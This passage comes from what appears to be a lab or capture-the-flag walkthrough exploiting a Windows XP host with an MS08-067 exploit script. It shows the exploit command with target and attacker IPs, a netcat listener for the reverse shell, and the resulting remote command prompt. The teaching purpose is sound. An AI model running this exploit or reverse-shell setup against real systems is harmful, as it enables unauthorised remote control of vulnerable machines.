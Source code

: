 Okay, so this describes the arguments, and importantly the possible values for `<OS>`: going from 1-6 based on the version of Windows and the service pack. We know that we are on Windows XP from the `nmap` scan, and we know from the previous Metasploit shell that is is `Service Pack 3 English`. But, if you are doing this without Metasploit at all, you wouldn't know that, and you'd have to try the three possible options(`1`, `5` and `6`).

So `<OS>` should be set to `6`. `<TARGET_IP>` is `10.10.10.4` and my IP is `10.10.14.17` and we'll use port `4444` on my side for the reverse shell:

```bash
$ ./ms08-067.py 10.10.10.4 6 445 10.10.14.17 4444

		@@@@@@@@@@    @@@@@@    @@@@@@@@    @@@@@@              @@@@@@@@     @@@@@@  @@@@@@@@
		@@@@@@@@@@@  @@@@@@@   @@@@@@@@@@  @@@@@@@@            @@@@@@@@@@   @@@@@@@  @@@@@@@@
		@@! @@! @@!  !@@       @@!   @@@@  @@!  @@@            @@!   @@@@  !@@            @@!
		!@! !@! !@!  !@!       !@!  @!@!@  !@!  @!@            !@!  @!@!@  !@!           !@!
		@!! !!@ @!@  !!@@!!    @!@ @! !@!   !@!!@!  @!@!@!@!@  @!@ @! !@!  !!@@!@!      @!!
		!@!   ! !@!   !!@!!!   !@!!!  !!!   !!@!!!  !!!@!@!!!  !@!!!  !!!  @!!@!!!!    !!!
		!!:     !!:       !:!  !!:!   !!!  !!:  !!!            !!:!   !!!  !:!  !:!   !!:
		:!:     :!:      !:!   :!:    !:!  :!:  !:!            :!:    !:!  :!:  !:!  :!:
		:::     ::   :::: ::   ::::::: ::  ::::: ::            ::::::: ::  :::: :::   ::
		 :      :    :: : :     : : :  :    : :  :              : : :  :    :: : :   : :


Windows XP SP3 English (NX)

[+] Generating shellcode ...
[+] Initiating connection ...
[+] Connected to ncacn_np:10.10.10.4[\pipe\browser]
[+] Please start a netcat listener: nc -lvp 4444, press enter to continue ...
```

Alright, let's follow the instructions and start up a listener, in a new terminal, where we will receive the incoming reverse shell, with `nc -lvnp 4444`. A quick recap, what are these flags?

- `-l` enables "listen mode"
- `-v` enables "verbose mode"
- `-n` disabled DNS resolution
- `-p` specifies the port (`4444` here)

```bash
$ nc -lvnp

listening on [any] 4444 ...
```

We are ready, so we'll hit ENTER back over in the terminal where we are running the script.

No more output appeared, so let's check the Netcat listener:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.4] 1035
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
